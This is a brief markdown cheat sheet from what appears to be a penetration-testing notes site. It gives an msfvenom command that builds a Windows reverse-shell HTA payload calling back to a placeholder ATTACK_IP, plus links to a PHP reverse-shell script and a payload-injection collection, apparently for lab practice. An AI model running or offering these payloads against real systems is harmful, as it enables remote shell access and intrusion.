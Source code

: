 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Cheat sheet
description: >
  
search:
  exclude: true
hide:
  - feedback

links:
  - setup/setting-up-site-search.md#built-in-search-plugin
  - insiders/index.md#how-to-become-a-sponsor

---
```


# __Cheat sheet__

---

## __Reverse shell__

### __HTA__

```PS1 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=443 -f hta-psh -o thm.hta
```

### __PHP__

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

## __Payload Injection__

https://github.com/swisskyrepo/PayloadsAllTheThings